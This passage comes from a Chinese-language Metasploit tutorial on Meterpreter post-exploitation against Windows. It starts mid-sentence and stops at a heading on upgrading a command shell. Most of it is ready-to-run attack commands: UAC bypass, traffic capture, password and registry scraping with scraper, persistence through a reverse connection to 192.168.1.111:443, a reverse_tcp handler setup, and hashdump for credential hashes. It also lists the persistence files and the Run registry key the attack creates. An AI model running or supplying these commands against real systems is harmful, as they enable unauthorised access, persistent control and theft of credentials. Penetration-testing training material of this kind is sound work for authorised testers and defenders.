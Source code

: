 ```
run post/windows/escalate/bypassuac  ，不然可能不会成功。）
```

获取系统流量数据

```
meterpreter> run packtrecorder –i 1
```


直捣黄龙

可以干很多事情：获取密码，下载注册表，获取系统信息等

```
meterpreter> run scraper
```

持久保持

当目标机器重启之后仍然可以控制

```
meterpreter> run persistence –X –i 50 –p 443 –r 192.168.1.111
```

-X 开机启动  -i连接超时时间 –p端口 –rIP

下次连接时：

```
msf> use multi/handler
set payload windows/meterpreter/reverse_tcp
set LPOST 443
set LHOST 192.168.1.111
exploit
```

(会在以下位置和注册表以随机文件名写入文件等信息，如：

C:\Users\YourtUserName\AppData\Local\Temp\MXIxVNCy.vbs

C:\Users\YourtUserName\AppData\Local\Temp\radF871B.tmp\svchost.exe

HKLM\Software\Microsoft\Windows\CurrentVersion\Run\DjMzwzCDaoIcgNP)


POST整合模块

可实现同时多个session操作

例子：获取hash

```
meterpreter> run post/windows/gather/hashdump
```

其他还有很多，使用TAB键补全看下就知道run post/<TAB>


### 5、升级command shell

例子：
